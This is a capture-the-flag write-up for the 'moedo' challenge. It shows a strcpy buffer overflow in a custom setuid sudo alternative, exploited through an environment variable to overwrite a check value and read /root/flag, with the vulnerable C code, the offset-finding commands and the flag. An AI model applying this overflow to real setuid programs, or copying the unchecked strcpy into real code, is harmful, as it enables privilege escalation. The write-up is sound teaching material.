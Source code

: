 # moedo

by vulnx

## The Challenge

![Alt text](images/image.png)

## The Solution

We are give a *sandboxed Alpine linux* to connect to via telnet. We also have credentials for a `mashiro` user.

After logging in, it tells us that the flag is located at `/root/flag` and our task simple, **read it**.

Obviously something like `cat /root/flag` doesn't work because we don't have the permission to do so. And `sudo` doesn't exist here, in fact the challenge tells us that they have developed an alternative called `moedo`.

So if we try using `moedo`:

```bash
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 1001 - Moe: 0
You're not moe enough!
moehost:~$
```

Hmm...maybe its time to view the source code which they provided:

```c
    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }
```

This precisely tells us that our `cat` command will be executed with elevated privileges if we can bypass the `moeness != MOE_ENOUGH` if-statement.

`MOE_ENOUGH` is explicitly defined as `0x30e`. And our `moeness` variable is calculated via the `check_moe()` function. The function itself doesn't seem to have any noticable vulnerabilities ( *at least for me* ). So I looked at the main function has found the bug:

```c
if (custom_chant)
 strcpy(chant, custom_chant)

```

The classic `strcpy` vulnerability which allows us to overflow local variables in the `main()` method. I then generated cyclic pattern using `MsF` for 100 bytes:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

since 100 bytes are sure to overflow the simple `chant[]` buffer:

```c
char chant[] = "Moe Moe Kyun!";
```

Then I set those bytes as `MOE_CHANT` env variable and run the program:

```bash
moehost:~$ export MOE_CHANT="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
moehost:~$ moedo "cat /root/flag"
UID: 1648439650 - GID: 1093689921 - Moe: 39614138
You're not moe enough!
Segmentation fault
moehost:~$ 
```

Here we see a seg fault, which is a good sign. But also the content in the `moeness` variable = `39614138`. This can be used to calculate the offset for overflowing this variable:

```bash
$ msf-pattern_offset -q 39614138                                                                                    
[*] Exact match at offset 26
$ 
```

To test it, we will set `MOE_CHANT` env variable as `"A" * 26 + "BCDE` and run the program:

```bash
moehost:~$ export MOE_CHANT="AAAAAAAAAAAAAAAAAAAAAAAAAABCDE"
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 768 - Moe: 45444342
You're not moe enough!
moehost:~$
```

Great we can successfully control the `moeness` variable. Now let's replace the `BCDE` in env variable as 0x30e ( in little endian format ) and try again:

```bash
moehost:~$ moedo cat /root/flag
UID: 1001 - GID: 1001 - Moe: 30e
AAAAAAAAAAAAAAAAAAAAAAAAAA
uctf{m45h1r0_d1dn7_61v3_up}
moehost:~$
```

BOOM! We got the flag

## The Flag

`uctf{m45h1r0_d1dn7_61v3_up}`
